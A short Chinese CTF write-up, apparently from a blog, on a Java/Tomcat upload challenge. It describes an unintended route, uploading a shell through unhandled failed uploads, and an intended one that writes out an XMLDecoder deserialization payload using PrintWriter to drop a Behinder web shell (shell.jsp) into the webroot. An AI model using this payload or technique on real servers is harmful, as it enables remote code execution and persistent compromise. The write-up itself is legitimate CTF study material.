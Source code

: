 我看到官方给的payload是

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023231010.png)

有点不是很理解为什么匹配的是最后一个。

读取uploadServlet.class

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023231737.png)

白名单后缀，并且ban了一些执行函数，这让本就不熟java的我原地去世。

## 非预期
然而这里并没有对错误上传的文件进行处理

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023232621.png)

尝试直接传shell

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023233437.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023233418.png)

## 预期

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211024144016.png)

其中 System.getenv("CATALINA_HOME") 可以使用前面的文件包含读取 /proc/self/environ 得到为 /usr/local/tomcat。因此可以尝试将 db.xml 覆盖为恶意代码后使用注册业务触发 XMLDecoder 反序列化。

网上找了执行的xml结构

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211024144825.png)

因为这里有过滤，所以换用hint中提到的 PrintWriter，也可以用实体编码绕过。

	<?xml version="1.0" encoding="utf-8"?>
	<java class="java.beans.XMLDecoder">
    	<object class="java.io.PrintWriter">
        	<string>/usr/local/tomcat/webapps/ROOT/static/shell.jsp</string>
        	<void method="println">
            	<string><![CDATA[冰蝎的载荷]]></string>
        	</void>
        	<void method="close"/>
    	</object>
	</java>

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211024150425.png)

注销登录触发

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211024150544.png)

